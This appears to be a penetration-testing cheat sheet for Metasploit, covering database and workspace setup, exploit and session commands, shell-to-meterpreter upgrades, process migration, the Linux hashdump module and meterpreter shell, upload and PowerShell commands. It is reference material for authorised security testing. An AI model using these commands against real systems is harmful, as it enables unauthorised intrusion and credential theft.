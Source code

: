 #### Metasploit

```c
$ sudo msfdb run                   // start database
$ sudo msfdb init                  // database initialization
$ msfdb --use-defaults delete      // delete existing databases
$ msfdb --use-defaults init        // database initialization
$ msfdb status                     // database status
msf6 > workspace                   // metasploit workspaces
msf6 > workspace -a <WORKSPACE>    // add a workspace
msf6 > workspace -r <WORKSPACE>    // rename a workspace
msf6 > workspace -d <WORKSPACE>    // delete a workspace
msf6 > workspace -D                // delete all workspaces
msf6 > db_nmap <OPTIONS>           // execute nmap and add output to database
msf6 > hosts                       // reads hosts from database
msf6 > services                    // reads services from database
msf6 > vulns                       // displaying vulnerabilities
msf6 > search                      // search within metasploit
msf6 > set RHOST <RHOST>           // set remote host
msf6 > set RPORT <RPORT>           // set remote port
msf6 > run                         // run exploit
msf6 > spool /PATH/TO/FILE         // recording screen output
msf6 > save                        // saves current state
msf6 > exploit                     // using module exploit
msf6 > payload                     // using module payload
msf6 > auxiliary                   // using module auxiliary
msf6 > encoder                     // using module encoder
msf6 > nop                         // using module nop
msf6 > show sessions               // displays all current sessions
msf6 > sessions -i 1               // switch to session 1
msf6 > sessions -u <ID>            // upgrading shell to meterpreter
msf6 > sessions -k <ID>            // kill specific session
msf6 > sessions -K                 // kill all sessions
msf6 > jobs                        // showing all current jobs
msf6 > show payloads               // displaying available payloads
msf6 > set VERBOSE true            // enable verbose output
msf6 > set forceexploit true       // exploits the target anyways
msf6 > set EXITFUNC thread         // reverse shell can exit without exit the program
msf6 > set AutoLoadStdapi false    // disables autoload of stdapi
msf6 > set PrependMigrate true     // enables automatic process migration
msf6 > set PrependMigrateProc explorer.exe                        // auto migrate to explorer.exe
msf6 > use post/PATH/TO/MODULE                                    // use post exploitation module
msf6 > use post/linux/gather/hashdump                             // use hashdump for Linux
msf6 > use post/multi/manage/shell_to_meterpreter                 // shell to meterpreter
msf6 > use exploit/windows/http/oracle_event_processing_upload    // use a specific module
C:\> > Ctrl + z                                  // put active meterpreter shell in background
meterpreter > loadstdapi                         // load stdapi
meterpreter > background                         // put meterpreter in background (same as "bg")
meterpreter > shell                              // get a system shell
meterpreter > channel -i <ID>                    // get back to existing meterpreter shell
meterpreter > ps                                 // checking processes
meterpreter > migrate 2236                       // migrate to a process
meterpreter > getuid                             // get the user id
meterpreter > sysinfo                            // get system information
meterpreter > search -f <FILE>                   // search for a file
meterpreter > upload                             // uploading local files to the target
meterpreter > ipconfig                           // get network configuration
meterpreter > load powershell                    // loads powershell
meterpreter > powershell_shell                   // follow-up command for load powershell
meterpreter > powershell_execute                 // execute command
meterpreter > powershell_import                  // import module
meterpreter > powershell_shell                   // shell
meterpreter > powershell_session_remove          // remove
```